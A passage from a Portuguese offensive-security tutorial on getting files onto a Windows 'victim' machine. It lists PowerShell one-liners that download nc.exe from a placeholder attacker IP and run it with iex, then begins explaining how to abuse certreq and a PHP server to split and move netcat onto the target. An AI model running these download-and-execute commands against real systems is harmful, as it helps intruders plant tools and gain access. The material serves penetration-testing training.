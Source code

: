 6. Internet Explorer com Invoke Webrequest

```powershell
iex (iwr 'http://IP_ATACANTE/nc.exe')
```

7. XML Msxm12.XMLHTTP

```powershell
$h = New-Object -ComObject Msxm12.XMLHTTP; $h.open('GET', 'http://IP_ATACANTE/nc.exe', $False); $h.send(); iex $h.responseText
```

8. DotNet System.NET.WebRequest

```powershell
$wr = [System.NET.WebRequest]::Create("http://IP_ATACANTE/nc.exe"); $r = $wr.GetResponse(); IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## PHP e Certreq

PHP Server é um software que permite a execução de aplicativos e scripts PHP em um servidor local. Ele funciona como um ambiente de desenvolvimento que simula um servidor web real em um computador local ou em uma rede interna. Isso permite que desenvolvedores testem e depurem suas aplicações PHP antes de implantá-las em um servidor de produção. O PHP Server é uma ferramenta útil para criar e testar websites ou aplicações que dependem da linguagem de programação PHP.

Certreq é uma ferramenta de linha de comando utilizada em sistemas Windows para solicitar e emitir certificados digitais a partir de uma Autoridade de Certificação (AC) ou uma infraestrutura de chave pública (PKI). Essa ferramenta é comumente empregada para realizar a solicitação de certificados de segurança para diversos fins, como autenticação, criptografia de dados, assinaturas digitais e outros processos que envolvam o uso de chaves públicas e privadas. O "certreq" permite aos administradores e usuários gerenciem a emissão e instalação de certificados, proporcionando uma forma segura de garantir a autenticidade e a confidencialidade das informações em um ambiente Windows. Apesar de não ser bem documentado é possível utilizar o certreq para realizar download de arquivos.

### Instalação e configuração (Máquina Linux - Atacante)

Para instalar a versão mais recente do PHP, siga os passos abaixo:

```bash
sudo apt-get update && sudo apt-get upgrade ; sudo apt-get install php
```

### Compartilhamento de arquivos (Máquina Linux - Atacante)

O certreq trabalha apenas com arquivos menores que 50 KB. Portanto, quando lidando com arquivos maiores, é necessário dividi-los em partes menores para realizar a conversão. Neste cenário, utilizaremos o arquivo "nc.exe", que possui cerca de 59.392 KB. Dividiremos esse arquivo em dois arquivos de texto para, posteriormente, unificá-los e restaurá-los na máquina da vítima.

A seguir, explicaremos os passos para realizar o compartilhamento de arquivos:

1. Identifique o tamanho do arquivo:

```bash
ls -lah
```
